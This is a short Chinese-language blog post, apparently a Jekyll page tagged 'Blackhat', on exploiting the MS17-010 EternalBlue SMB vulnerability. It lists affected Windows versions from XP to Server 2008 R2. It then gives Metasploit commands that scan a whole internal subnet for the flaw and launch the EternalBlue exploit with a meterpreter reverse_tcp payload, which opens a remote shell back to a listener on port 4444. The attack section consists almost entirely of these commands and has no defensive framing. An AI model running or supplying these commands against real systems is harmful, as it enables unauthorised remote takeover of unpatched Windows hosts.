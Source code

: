 ```yaml
---
title: 永恒之蓝(ms17-010-eternalblue)漏洞利用
name: ms17-010-eternalblue
date: 2017-10-28
tags: [ms17,eternalblue，永恒之蓝,nsa]
categories: [Blackhat]
---
```


* 目录
{:toc}

## 适用版本

*   Windows XP (all services pack) (x86) (x64)
*   Windows Server 2003 SP0 (x86)
*   Windows Server 2003 SP1/SP2 (x86)
*   Windows Server 2003 (x64)
*   Windows Vista (x86)
*   Windows Vista (x64)
*   Windows Server 2008 (x86)
*   Windows Server 2008 R2 (x86) (x64)
*   Windows 7 (all services pack) (x86) (x64)

## 目标扫描

这里以内网扫描进行测试，所有扫描内网中所有主机，并检查其是否存在此漏洞。

```shell
msf > use auxiliary/scanner/smb/smb_ms17_010
msf > set RHOSTS 192.168.1.0/24
msf > set THREADS 100
msf > exploit
```

## 漏洞攻击

确定好目标主机后，就可以使用启动监听并进行攻击

```shell
msf > use exploit/windows/smb/ms17_010_eternalblue
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST 192.168.1.15
msf > set LPORT 4444
msf > set RHOST 192.168.1.110
msf > exploit
```
